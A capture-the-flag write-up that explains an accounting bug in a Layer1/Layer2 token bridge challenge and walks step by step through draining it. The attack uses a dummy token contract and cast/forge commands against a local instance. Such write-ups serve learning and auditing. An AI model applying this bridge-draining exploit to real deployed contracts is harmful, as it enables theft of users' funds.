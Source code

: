 ### HarryRiddle

#### Analysis

- The objective is to drain all the funds of the `L1` bridge. The balances of `L1` bridge is `2 ether` as in the setup.

- This project is the bridge between Layer1 and Layer2 to bridge the assets or message. There is an off-chain mechanism called `relayer` to catch the message in one layer and enforce the transaction in other layer.

#### Finding Bugs

- When deposit pair `(Layer1WETH, anyToken)` in `Layer1Bridge`, it will send the message to `Layer2Bridge` with `(Layer1WETH, Layer2WETH)` pair but the `deposits` map store the amount for `(Layer1WETH, anyToken)` pair.
- Illustration when we execute `depositERC20(WETH, anyToken, 1 ether)`
  - On the `L1` side, the `deposits[WETH][anyToken] += 1 ether`
  - However, on the `L2` side, `1 ether` of `WETH` tokens will be minted instead of `1 ether` of `anyToken`.
  - We will `withdraw` `WETH` from `L2` and receive `WETH` on `L1` chain. The important thing is that the map value of `(WETH, anyToken)` is not reduced but `(Layer1WETH, Layer2WETH)` occurs.

=> So we can exploit this bug to drain all funds.

- POC:

```javascript
    function _initiateERC20Deposit(
        address _l1Token,
        address _l2Token,
        address _from,
        address _to,
        uint256 _amount
    ) internal {
        IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

        bytes memory message;
        if (_l1Token == weth) {
            message = abi.encodeWithSelector(
                IL2ERC20Bridge.finalizeDeposit.selector,
                address(0),
@>              Lib_PredeployAddresses.L2_WETH,
                _from,
                _to,
                _amount
            );
        } else {
            message = abi.encodeWithSelector(
                IL2ERC20Bridge.finalizeDeposit.selector,
                _l1Token,
                _l2Token,
                _from,
                _to,
                _amount
            );
        }

        sendCrossDomainMessage(l2TokenBridge, message);
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

        emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
    }
```

#### Exploitation

- Ensuring the Docker is on and we run the `deploy.sh` file with `./deploy.sh all` command.

- Running `nc localhost 1337` command to open the choice table in console screen. (Select `1`)

```sh
    nc localhost 1337

    1 - launch new instance
    2 - kill instance
    3 - get flag
    action?
```

- Get the player's address:

```sh
    cast wallet address --private-key <PRIVATE_KEY>
```

- Get addresses of the WETH and Bridge in Layer1 chain.

```sh
    cast call <CHALLENGE_CONTRACT_ADDRESS> "WETH()" --rpc-url <L1_RPC_URL> --private-key <PRIVATE_KEY>
    cast call <CHALLENGE_CONTRACT_ADDRESS> "BRIDGE()" --rpc-url <L1_RPC_URL> --private-key <PRIVATE_KEY>
```

- Deploy the `RandomToken` contract in Layer2 chain.

```javascript
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract RandomToken {
    address public l1Token;
    constructor(address _l1Token) {
        l1Token = _l1Token;
    }

    function mint(address to, uint256 amount) external {}

    function burn(address to, uint256 amount) external {}
}

```

```sh
    forge create ./src/RandomToken.sol:RandomToken --rpc-url <L2_RPC_URL> --private-key <PRIVATE_KEY> --constructor-args <L1_WETH>
```

- Deposit `Ether` to `WETH` contract with `2 ether` value.

```sh
    cast send <L1_WETH> "deposit()" --rpc-url <L1_RPC_URL> --private-key <PRIVATE_KEY> --value 2ether
```

- Approve `WETH` for `L1_BRIDGE`

```sh
    cast send <L1_WETH> "approve(address,uint256)" --rpc-url <L1_RPC_URL> --private-key <PRIVATE_KEY> -- <L1_BRIDGE> 2000000000000000000
```

- Deposit `RandomToken` to `L1_BRIDGE1`

```sh
    cast send <L1_BRIDGE> "depositERC20(address,address,uint256)" --rpc-url <L1_RPC_URL> --private-key <PRIVATE_KEY> -- <L1_WETH> <RANDOM_TOKEN> 2000000000000000000
```

- To ensure we deposited (`WETH`, `RANDOM_TOKEN`, 2ether) in `L1` and received `WETH` in `L2`. We will enter this command

```sh
    cast call <L2_WETH> "balanceOf(address)" --rpc-url <L2_RPC_URL> --private-key <PRIVATE_KEY> -- <PLAYER>
```

- We will withdraw all tokens in `L1_BRIDGE` by 2 transactions, one is `L2_WETH` withdraw and last is `RANDOM_TOKEN` withdraw.

```sh
    cast send <L2_BRIDGE> "withdraw(address,uint256)" --rpc-url <L2_RPC_URL> --private-key <PRIVATE_KEY> -- <L2_WETH> 2000000000000000000

    cast send <L2_BRIDGE> "withdraw(address,uint256)" --rpc-url <L2_RPC_URL> --private-key <PRIVATE_KEY> -- <RANDOM_TOKEN> 2000000000000000000
```

- Run this command again and press `3` to check the finished.

```sh
    nc localhost 1337

    1 - launch new instance
    2 - kill instance
    3 - get flag
    action?
```
